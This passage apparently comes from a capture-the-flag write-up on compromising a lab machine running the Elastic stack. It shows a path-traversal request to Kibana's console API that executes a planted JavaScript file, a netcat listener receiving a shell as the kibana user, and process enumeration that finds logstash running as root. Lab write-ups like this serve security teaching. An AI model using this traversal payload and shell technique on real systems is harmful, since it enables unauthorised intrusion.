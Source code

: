
Now I can trigger it by visiting
`http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/0xdf.js`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.115.
    Ncat: Connection from 10.10.10.115:55962.
    id
    uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
    

## Priv: kibana –> root

### Enumeration

As kibana, I can access more stuff involved with the Elastic stack. I also
noticed that `logstash` is running as root:

    
    
    bash-4.2$ ps awuxx | grep logstash
    root       6283 11.3 12.8 2719944 494640 ?      SNsl 10:39   2:11 /bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOutOfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-core/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annotations-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.resources-3.7.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.runtime-3.7.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.app-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.common-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.preferences-3.4.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.registry-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.jdt.core-3.10.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.osgi-3.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.text-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/slf4j-api-1.7.25.jar org.logstash.Logstash --path.settings /etc/logstash
    
